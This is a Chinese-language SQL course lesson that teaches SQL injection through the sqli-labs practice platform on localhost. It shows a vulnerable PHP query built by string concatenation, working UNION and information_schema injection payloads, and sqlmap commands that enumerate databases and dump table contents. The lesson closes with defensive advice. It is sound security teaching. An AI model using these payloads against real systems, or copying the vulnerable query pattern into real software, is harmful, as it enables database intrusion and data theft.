








---
date: "2019-06-23"
---  
      
# 37丨SQL注入：你的SQL是如何被注入的？
我们之前已经讲解了SQL的使用及优化，正常的SQL调用可以帮我们从数据库中获取想要的数据，然而我们构建的Web应用是个应用程序，本身也可能存在安全漏洞，如果不加以注意，就会出现Web安全的隐患，比如通过非正常的方式注入SQL。

在过去的几年中，我们也能经常看到用户信息被泄露，出现这种情况，很大程度上和SQL注入有关。所以了解SQL注入的原理以及防范还是非常有必要的。

今天我们就通过一个简单的练习看下SQL注入的过程是怎样的，内容主要包括以下几个部分：

1.  SQL注入的原理。为什么用户可以通过URL请求或者提交Web表单的方式提交非法SQL命令，从而访问数据库？
2.  如何使用sqli-labs注入平台进行第一个SQL注入实验？
3.  如何使用SQLmap完成SQL注入检测？

## SQL注入的原理

SQL注入也叫作SQL Injection，它指的是将非法的SQL命令插入到URL或者Web表单中进行请求，而这些请求被服务器认为是正常的SQL语句从而进行执行。也就是说，如果我们想要进行SQL注入，可以将想要执行的SQL代码隐藏在输入的信息中，而机器无法识别出来这些内容是用户信息，还是SQL代码，在后台处理过程中，这些输入的SQL语句会显现出来并执行，从而导致数据泄露，甚至被更改或删除。

<!-- [[[read_end]]] -->

为什么我们可以将SQL语句隐藏在输入的信息中呢？这里举一个简单的例子。

比如下面的PHP代码将浏览器发送过来的URL请求，通过GET方式获取ID参数，赋值给\$id变量，然后通过字符串拼接的方式组成了SQL语句。这里我们没有对传入的ID参数做校验，而是采用了直接拼接的方式，这样就可能产生SQL注入。

```
    $id=$_GET['id'];
    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
    

```

如果我们在URL中的\?id=后面输入' or 1=1 \--+，那么SQL语句就变成了下面这样：

```
    SELECT * FROM users WHERE id='' or 1=1 --  LIMIT 0,1
    

```

其中我们输入的（+）在浏览器URL中相当于空格，而输入的（--）在SQL中表示注释语句，它会将后面的SQL内容都注释掉，这样整个SQL就相当于是从users表中获取全部的数据。然后我们使用mysql\_fetch\_array从结果中获取一条记录，这时即使ID输入不正确也没有关系，同样可以获取数据表中的第一行记录。

## 一个SQL注入的实例

通常我们希望通过SQL注入可以获取更多的信息，比如数据库的名称、数据表名称和字段名等。下面我们通过一个简单的SQL实例来操作一下。

### 搭建sqli-labs注入环境

首先我们需要搭建sqli-labs注入环境，在这个项目中，我们会面临75个SQL注入的挑战，你可以像游戏闯关一样对SQL注入的原理进行学习。

下面的步骤是关于如何在本地搭建sqli-labs注入环境的，成功搭建好的环境类似[链接](http://43.247.91.228:84/)里展现的。

第一步，下载sqli-labs。

sqli-labs是一个开源的SQL注入平台，你可以从[GitHub](https://github.com/audi-1/sqli-labs)上下载它。

第二步，配置PHP、Apache环境（可以使用phpStudy工具）。

运行sqli-labs需要PHP、Apache环境，如果你之前没有安装过它们，可以直接使用phpStudy这个工具，它不仅集成了PHP、Apache和MySQL，还可以方便地指定PHP的版本。在今天的项目中，我使用的是PHP5.4.45版本。

  
第三步，配置sqli-labs及MySQL参数。

首先我们需要给sqli-labs指定需要访问的数据库账户密码，对应`sqli-labs-master\sql-connections\db-creds.inc`文件，这里我们需要修改`$dbpass`参数，改成自己的MySQL的密码。

  
此时我们访问本地的`sqli-labs`项目`http://localhost/sqli-labs-master/`出现如下页面，需要先启动数据库，选择`Setup/reset Database for labs`即可。

  
如果此时提示数据库连接错误，可能需要我们手动修改MySQL的配置文件，需要调整的参数如下所示（修改MySQL密码验证方式为使用明文，同时设置MySQL默认的编码方式）：

```
    [client]
    default-character-set=utf8
    [mysql]
    default-character-set=utf8
    [mysqld]
    character-set-server = utf8
    default_authentication_plugin = mysql_native_password
    

```

### 第一个SQL注入挑战

在我们成功对sqli-labs进行了配置，现在可以进入到第一关挑战环节。访问本地的`http://localhost/sqli-labs-master/Less-1/`页面，如下所示：

  
我们可以在URL后面加上ID参数，获取指定ID的信息，比如`http://localhost/sqli-labs-master/Less-1/?id=1`。

这些都是正常的访问请求，现在我们可以通过1 or 1=1来判断ID参数的查询类型，访问`http://localhost/sqli-labs-master/Less-1/?id=1 or 1=1`。

  
你可以看到依然可以正常访问，证明ID参数不是数值查询，然后我们在1后面增加个单引号，来查看下返回结果，访问`http://localhost/sqli-labs-master/Less-1/?id=1'`。

这时数据库报错，并且在页面上返回了错误信息：You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1。

我们对这个错误进行分析，首先`''1'' LIMIT 0,1'`这个语句，我们去掉最外层的单引号，得到`'1'' LIMIT 0,1`，因为我们输入的参数是`1'`，继续去掉`1'`，得到`'' LIMIT 0,1`。这样我们就能判断出后台的SQL语句，类似于下面这样：

```
    $sql="SELECT ... FROM ... WHERE id='$id' LIMIT 0,1";
    

```

两处省略号的地方分别代表SELECT语句中的字段名和数据表名称。

### 判断查询语句的字段数

现在我们已经对后台的SQL查询已经有了大致的判断，它是通过字符串拼接完成的SQL查询。现在我们再来判断下这个查询语句中的字段个数，通常可以在输入的查询内容后面加上 ORDER BY X，这里X是我们估计的字段个数。如果X数值大于SELECT查询的字段数，则会报错。根据这个原理，我们可以尝试通过不同的X来判断SELECT查询的字段个数，这里我们通过下面两个URL可以判断出来，SELECT查询的字段数为3个：

报错：

```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 4 --+
    

```

正确：

```
    http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+
    

```

### 获取当前数据库和用户信息

下面我们通过SQL注入来获取想要的信息，比如想要获取当前数据库和用户信息。

这里我们使用UNION操作符。在MySQL中，UNION操作符前后两个SELECT语句的查询结构必须一致。刚才我们已经通过实验，判断出查询语句的字段个数为3，因此在构造UNION后面的查询语句时也需要查询3个字段。这里我们可以使用：`SELECT 1,database(),user()`，也就是使用默认值1来作为第一个字段，整个URL为：`http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() \--+`。

  
页面中显示的`security`即为当前的数据库名称，`root@localhost`为当前的用户信息。

### 获取MySQL中的所有数据库名称

我们还想知道当前MySQL中所有的数据库名称都有哪些，数据库名称数量肯定会大于1，因此这里我们需要使用`GROUP_CONCAT`函数，这个函数可以将`GROUP BY`产生的同一个分组中的值连接起来，并以字符串形式返回。

具体使用如下：

```
    http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+
    

```

这样我们就可以把多个数据库名称拼接在一起，作为字段3返回给页面。

  
你能看到这里我使用到了MySQL中的`information_schema`数据库，这个数据库是MySQL自带的数据库，用来存储数据库的基本信息，比如数据库名称、数据表名称、列的数据类型和访问权限等。我们可以通过访问`information_schema`数据库，获得更多数据库的信息。

### 查询wucai数据库中所有数据表

在上面的实验中，我们已经得到了MySQL中所有的数据库名称，这里我们能看到wucai这个数据库。如果我们想要看wucai这个数据库中都有哪些数据表，可以使用：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='wucai') --+
    

```

这里我们同样将数据表名称使用GROUP\_CONCAT函数拼接起来，作为字段3进行返回。


### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information\_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
    http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+
    

```

这里会将字段使用GROUP\_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
    attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main
    

```


## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问`information_schema`就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息

我们使用`sqlmap \-u`来指定注入测试的URL，使用`--current-db`来获取当前的数据库名称，使用`--current-user`获取当前的用户信息，具体命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db --current-user
    

```

然后你能看到SQLmap帮我们获取了相应的结果：


### 获取MySQL中的所有数据库名称

我们可以使用`--dbs`来获取DBMS中所有的数据库名称，这里我们使用`--threads`参数来指定SQLmap最大并发数，设置为5，通常该参数不要超过10，具体命令为下面这样：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 --dbs
    

```

同样SQLmap帮我们获取了MySQL中存在的8个数据库名称：



### 查询wucai数据库中所有数据表

当我们知道DBMS中存在的某个数据库名称时，可以使用-D参数对数据库进行指定，然后使用`--tables`参数显示出所有的数据表名称。比如我们想要查看wucai数据库中都有哪些数据表，使用：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai --tables
    

```



### 查询heros数据表中所有字段名称

我们也可以对指定的数据表，比如heros表进行所有字段名称的查询，使用`-D`指定数据库名称，`-T`指定数据表名称，`--columns`对所有字段名称进行查询，命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai -T heros --columns
    

```



### 查询heros数据表中的英雄信息

当我们了解了数据表中的字段之后，就可以对指定字段进行查询，使用`-C`参数进行指定。比如我们想要查询heros数据表中的`id`、`name`和`hp_max`字段的取值，这里我们不采用多线程的方式，具体命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D wucai -T heros -C id,name,hp_max --dump
    

```

  
完整的结果一共包括69个英雄信息都显示出来了，这里我只截取了部分的英雄结果。

## 总结

在今天的内容中，我使用了sqli-labs注入平台作为实验数据，使用了SQLmap工具自动完成SQL注入。SQL注入的方法还有很多，我们今天讲解的只是其中一个方式。你如果对SQL注入感兴趣，也可以对sqli-labs中其他例子进行学习，了解更多SQL注入的方法。

在这个过程中，最主要的是理解SQL注入的原理。在日常工作中，我们需要对用户提交的内容进行验证，以防止SQL注入。当然很多时候我们都在使用编程框架，这些框架已经极大地降低了SQL注入的风险，但是只要有SQL拼接的地方，这种风险就可能存在。

总之，代码规范性对于Web安全来说非常重要，尽量不要采用直接拼接的方式进行查询。同时在Web上线之后，还需要将生产环境中的错误提示信息关闭，以减少被SQL注入的风险。此外我们也可以采用第三方的工具，比如SQLmap来对Web应用进行检测，以增强Web安全性。



你不妨思考下，为什么开发人员的代码规范对于Web安全来说非常重要？以及都有哪些方式可以防止SQL注入呢？

欢迎你在评论区写下你的思考，也欢迎把这篇文章分享给你的朋友或者同事，一起交流一下。